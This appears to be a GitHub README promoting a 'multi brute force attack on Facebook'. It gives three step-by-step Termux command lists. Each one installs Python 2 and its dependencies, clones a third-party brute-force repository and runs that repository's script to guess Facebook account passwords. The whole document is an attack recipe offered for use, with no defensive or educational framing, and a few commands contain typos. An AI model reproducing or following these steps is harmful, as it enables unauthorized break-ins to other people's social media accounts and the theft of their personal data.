 # MULTI-BRUTE-FORCE-ATTACK-ON-FACEBOOK  

So Let's Start....  
Step By Step  
First of All Download Termux from Google Play and Install it  After installing just give these commands to Termux  
And Run one by one  

![PicsArt_10-25-08 29 55](https://user-images.githubusercontent.com/75029023/111865355-9061ca80-89a1-11eb-91b9-6c5f35e01cfe.png)

# COMMAND LIST 1 
* $ apt update && apt upgrade  
* $ pkg install python2 
* $ pkg install git  
* $ pip2 install mechanize  
* $ git clone https://github.com/pirmansx/mbf  
* $ cd mbf 
* $ python2 MBF.py  

# COMMAND LIST 2  
* $ pkg update 
* $ pkg upgrade 
* $ pkg install python2  
* $ pkg install perl 
* $ pkg install curl 
* $ pkg install mechanize 
* $ pip2 install requsets 
* $ git clone https://github.com/Senitopeng/fbbrute 
* $ cd fbbrute 
* $ python2 fbbrute.py  

# COMMAND LIST 3 
* $ apt update && apt upgrade  
* $ pkg install pip 
* $ pkg install python 
* $ pkg install python2  
* $ pip2 install mechanize 
* $ pkg install git 
* $ git clone https://github.com/hnov7/mbf 
* $ cd mbf 
* $ ls 
* $ python2 mbf.py 
* $ 1 
* $ y
